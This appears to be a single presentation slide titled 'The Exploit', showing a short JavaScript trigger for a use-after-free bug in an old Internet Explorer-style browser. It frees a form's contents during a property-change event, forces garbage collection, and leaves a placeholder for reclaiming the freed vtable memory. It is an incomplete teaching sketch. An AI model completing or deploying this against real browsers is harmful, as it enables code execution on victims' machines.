

# The Exploit
<script>
    function changer() {
        document.getElementById(”form").innerHTML = "";
        CollectGarbage();

        --- allocate string object to occupy vtable location ---
    }

    document.getElementById("c1").onpropertychange = changer;
    document.getElementById("form").reset();
</script>